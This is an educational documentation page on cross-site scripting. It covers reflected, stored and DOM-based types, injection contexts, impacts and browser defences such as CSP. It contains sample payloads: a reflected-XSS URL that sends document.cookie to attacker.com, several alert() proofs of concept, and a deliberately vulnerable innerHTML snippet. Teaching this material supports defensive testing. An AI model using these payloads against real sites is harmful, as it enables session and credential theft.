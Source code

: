 ```yaml
---
title: XSS Fundamentals
description: Understanding the core concepts and types of Cross-Site Scripting attacks
---
```




Cross-Site Scripting (XSS) attacks are a type of injection vulnerability where malicious scripts are injected into trusted websites. Understanding the fundamental concepts of XSS is essential for both identifying vulnerabilities and implementing effective defenses.

## Types of XSS Attacks

<Tabs defaultValue="reflected" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="reflected">Reflected XSS</TabsTrigger>
    <TabsTrigger value="stored">Stored XSS</TabsTrigger>
    <TabsTrigger value="dom">DOM-based XSS</TabsTrigger>
  </TabsList>
  <TabsContent value="reflected">
    ### Reflected XSS
    
    Reflected XSS occurs when malicious script is reflected off a web server, such as in search results, error messages, or any other response that includes some or all of the input sent to the server as part of the request. Reflected XSS is non-persistent and typically requires a victim to click on a specially crafted link.
    
    **Example Attack Flow:**
    1. Attacker creates a malicious URL with embedded JavaScript
    2. Victim clicks on the link (often via phishing)
    3. The server reflects the script in its response
    4. The victim's browser executes the script
    
    ```
    https://vulnerable-site.com/search?query=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
    ```
  </TabsContent>
  <TabsContent value="stored">
    ### Stored XSS
    
    Stored XSS (also known as persistent XSS) occurs when malicious script is stored on the target server, such as in a database, message forum, comment field, or visitor log. The victim's browser will execute the script when it retrieves the stored data from the server.
    
    **Example Attack Flow:**
    1. Attacker submits malicious script via a form that stores data
    2. The script is saved in the database
    3. When other users view the affected page, the script executes in their browsers
    
    **Common Targets:**
    - Comment sections
    - User profiles
    - Product reviews
    - Forum posts
  </TabsContent>
  <TabsContent value="dom">
    ### DOM-based XSS
    
    DOM-based XSS occurs when the vulnerability exists in client-side code rather than server-side code. The attack payload is executed as a result of modifying the DOM environment in the victim's browser.
    
    **Example Attack Flow:**
    1. Page contains JavaScript that processes data from an unsafe source (like URL parameters)
    2. The script modifies the DOM without proper sanitization
    3. Malicious content is inserted into the page
    
    ```javascript
    // Vulnerable code example
    const username = new URLSearchParams(window.location.search).get('user');
    document.getElementById('greeting').innerHTML = 'Hello, ' + username;
    
    // Attack URL
    // https://vulnerable-site.com/page?user=<img src=x onerror=alert(1)>
    ```
  </TabsContent>
</Tabs>

<Callout type="info" title="Key Distinction">
  The main difference between the three types of XSS is where the payload is stored and how it's delivered to the victim. Reflected XSS requires user interaction with a malicious link, stored XSS affects anyone who views the compromised page, and DOM-based XSS executes through client-side JavaScript manipulation.
</Callout>

## XSS Attack Vectors

XSS attacks can be delivered through various vectors:

- **HTML Context**: Injecting script tags or event handlers
  ```html
  <script>alert('XSS')</script>
  <body onload="alert('XSS')">
  ```

- **JavaScript Context**: Breaking out of existing JavaScript
  ```javascript
  ';alert('XSS');//
  ```

- **Attribute Context**: Escaping from HTML attributes
  ```html
  " onmouseover="alert('XSS')
  ```

- **URL Context**: Exploiting javascript: protocol
  ```html
  <a href="javascript:alert('XSS')">Click me</a>
  ```

- **CSS Context**: Exploiting expression() in older IE browsers
  ```css
  <style>body {background-image:url("javascript:alert('XSS')")}</style>
  ```

## Execution Contexts

Understanding the context in which your payload will be executed is crucial for crafting effective XSS attacks:

### HTML Context

When user input is inserted directly into the HTML body, attackers can inject complete HTML tags including script tags, event handlers, or iframe elements.

**Example:**
```html
<div>User input: [INJECTION POINT]</div>
```

**Payload:**
```html
<script>alert(document.cookie)</script>
```

### HTML Attribute Context

When user input is placed within HTML attributes, attackers need to escape the attribute before injecting malicious code.

**Example:**
```html
<input type="text" value="[INJECTION POINT]">
```

**Payload:**
```
" onmouseover="alert(document.cookie)" x="
```

### JavaScript Context

When user input is embedded within JavaScript code, attackers need to terminate existing JavaScript statements before injecting their own code.

**Example:**
```html
<script>
  var username = '[INJECTION POINT]';
  document.write('Welcome, ' + username);
</script>
```

**Payload:**
```
';alert(document.cookie);//
```

### URL Context

When user input is placed in URL parameters or as part of a URL, attackers can use the javascript: protocol.

**Example:**
```html
<a href="[INJECTION POINT]">Click here</a>
```

**Payload:**
```
javascript:alert(document.cookie)
```

## Impact of XSS Vulnerabilities

XSS vulnerabilities can lead to several serious security issues:

- **Session Hijacking**: Stealing user cookies to impersonate them
- **Credential Theft**: Capturing login credentials via fake forms
- **Data Exfiltration**: Stealing sensitive information from the page
- **Site Defacement**: Modifying the appearance of the website
- **Malware Distribution**: Redirecting users to malicious downloads
- **Network Scanning**: Using the victim's browser to scan internal networks
- **Crypto Mining**: Running cryptocurrency miners in the victim's browser

<Callout type="warning" title="Same-Origin Policy">
  XSS attacks are particularly dangerous because they bypass the Same-Origin Policy (SOP). Since the malicious script executes in the context of the vulnerable website, it has access to that site's cookies, session tokens, and other sensitive information.
</Callout>

## Browser Security Mechanisms

Modern browsers implement several security mechanisms to mitigate XSS attacks:

- **Content Security Policy (CSP)**: Restricts which scripts can execute
- **HttpOnly Cookies**: Prevents JavaScript from accessing cookies
- **X-XSS-Protection**: Built-in XSS filtering (deprecated in modern browsers)
- **Iframe Sandboxing**: Restricts iframe capabilities
- **Subresource Integrity**: Ensures resources haven't been tampered with

Understanding these protections and how they can be bypassed is essential for comprehensive XSS testing.

In the next section, we'll explore techniques for identifying XSS vulnerabilities in web applications.
